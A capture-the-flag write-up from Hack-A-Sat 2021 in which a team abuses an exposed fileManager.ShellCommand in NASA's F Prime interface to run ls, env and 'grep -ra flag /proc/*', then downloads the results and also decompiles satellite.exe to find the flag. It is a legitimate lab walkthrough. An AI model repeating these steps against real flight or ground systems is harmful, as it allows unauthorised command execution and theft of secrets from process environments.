


#Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 


Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface - we noticed the Commanding tab - started examining the available commands...




We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supe    rsat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:GAedWX5JKpieI6-
va7QCqbKuC3IEdDWeOWbYCRmsS47G7nqjCvgamkGQch-FmO0B0V9wKm_0TKa4OGH77zbkFQs}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:GAedWX5JKpieI6-
va7QCqbKuC3IEdDWeOWbYCRmsS47G7nqjCvgamkGQch-FmO0B0V9wKm_0TKa4OGH77zbkFQs}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
```


dtechshield executed the following set of commands:

2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initially the `SAT_FLAG` almost send us on our way, but dumping the full set of environment variables the team captured the flag. 

